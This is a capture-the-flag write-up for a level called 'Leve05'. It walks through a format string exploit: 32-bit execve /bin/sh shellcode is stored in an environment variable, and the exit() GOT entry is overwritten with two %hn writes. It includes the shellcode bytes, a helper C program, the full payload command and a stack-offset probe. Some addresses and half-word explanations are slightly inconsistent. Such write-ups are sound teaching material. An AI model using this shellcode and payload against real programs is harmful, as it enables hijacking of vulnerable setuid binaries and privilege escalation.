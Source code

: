 # Leve05

## What the binary does
The program:
- Reads 100 bytes using fgets().
- Applies a loop that scans and transforms any uppercase letters into lowercase (A–Z → a–z).
- Then it prints the input using printf(user_input), without a format string. (That’s a format string vulnerability)

The program ends with a call to exit(0), and the GOT entry for exit() is used.
This gives us a chance to overwrite the GOT to redirect execution.

## The idea
We overwrite the exit() GOT entry with the address of our shellcode, which we store in an environment variable.
That way, when the program calls exit(), it actually jumps to our shellcode.

##  Step-by-step

### 1. Prepare the shellcode
We inject our shellcode using the environment :
```
export SHELLCODE=$(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

We put the shellcode in the environment because when we tried to send the shellcode directly in the command gdb and ltrace didn't gave use the same address.

### 2. Find the address of the shellcode
We write a small C program to print the environment variable address.
```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char *addr = getenv("SHELLCODE");
    if (addr) {
        printf("%p\n", addr);
    } else {
        printf("Address not found\n");
    }
    return 0;
}
``` 

We compiles it with the flag `-m32` to get an address in 32 bits.
```
gcc -m32 get_shellcode_addr.c
env -i SHELLCODE=$SHELLCODE ./a.out
```

By using `env -i`, we eliminate variability and make the address of our SHELLCODE variable stable and predictable. This ensure our exploit can reliably jump to the right address.

Environment variables are stored in memory, and their address can vary depending on:
- The number and size of other environment variables.
- Their ordering.
- The total memory layout of the process.

### 3. Locate the GOT entry for `exit`
In gdb:
```
disas exit
```

We want to overwrite this address with the address of our shellcode.
Instead of writing all 4 bytes at once, we use two separate 2-byte writes using `%hn`.


#### Why?
Because:
- The full address 0xffffd91a in decimal is 4294953498. It is way too large to be handle directly in a %n-based format string.
- The printf() function has limitations when converting large values to decimal padding.
- Writing two smaller values like 0xd91a (55578) and 0xffff (65535) is simpler and more reliable.

### 4. The final payload
We’ll use format string specifiers like `%hn` (half-word write) to write the shellcode address in 2-byte chunks.
```
(python -c 'print "\xe2\x97\x04\x08" + "\xe0\x97\x04\x08" + "%55570d%11$hn" + "%9957d%10$hn"'; cat) | env -i SHELLCODE=$SHELLCODE ./level05
```

Addresses:
- \xe2\x97\x04\x08 → 0x080497e2 → second half of exit GOT
- \xe0\x97\x04\x08 → 0x080497e0 → first half of exit GOT


We want to write the shellcode address: 0xffffd91a

Split into:
- 0xd91a = 55578 (second half)
- 0xffff = 65535, and 65535 - 55578 = 9957 (first half minus second half)

We also need to subtract 8 bytes to the two half of the shellcode address because of the 8 bytes that we already wrote with the printf.

So:
- %55570d%11$hn → write 0xd91a at 0x080497e0
- %9957d%10$hn → write 0xffff at 0x080497e2

In gdb, we can check what is the value inside of the address of exit with this command:
```
(gdb) x/1w 0x080497e0
0x080497e0 <exit@got.plt>: 0xffffd6b8
```

#### Why %10$hn, %11$hn?
Because of how the stack is laid out, we need to calculate the positions where the addresses we inject land.

We can do this by using this pattern:
```
python -c 'print "AAAA" + "%x "*20'
```